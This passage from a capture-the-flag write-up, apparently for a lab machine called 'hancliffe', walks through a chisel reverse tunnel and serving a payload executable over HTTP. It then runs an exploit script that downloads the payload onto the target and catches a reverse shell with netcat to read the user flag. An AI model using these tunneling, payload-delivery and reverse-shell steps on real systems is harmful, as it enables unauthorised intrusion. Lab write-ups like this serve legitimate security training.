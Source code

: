 ```bash
$ ./chisel server --reverse --port 8001
2022/03/04 18:13:20 server: Reverse tunnelling enabled
2022/03/04 18:13:20 server: Fingerprint NUEIuQXqeAyEE1QOs+JPRejh8o1ZdPXeppbKlVAv7c0=
2022/03/04 18:13:20 server: Listening on http://0.0.0.0:8001
2022/03/04 18:15:42 server: session#1: tun: proxy#R:9512=>localhost:9512: Listening
```

Serve the payload via HTTP.

```bash
$ ls tgihf.exe
tgihf.exe
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Run the payload through the reverse port forward tunnel.

```bash
$ python2.7 one-remote-3-exploit.py 127.0.0.1 10.10.14.97 tgihf.exe
[+] Connecting to target...
[+] Popping Start Menu
[+] Opening CMD
[+] *Super Fast Hacker Typing*
[+] Downloading Payload
[+] Done! Check listener?
```

Receive the reverse shell as `clara` and read the user flag at `C:\Users\clara\Desktop\user.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.174.204] 49823
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

C:\Users\clara>whoami
whoami
hancliffe\clara

C:\Users\clara>dir Desktop\user.txt
dir Desktop\user.txt
 Volume in drive C has no label.
 Volume Serial Number is B0F6-2F1B

 Directory of C:\Users\clara\Desktop

03/04/2022  09:28 AM                34 user.txt
               1 File(s)             34 bytes
               0 Dir(s)   5,553,647,616 bytes free
```

---
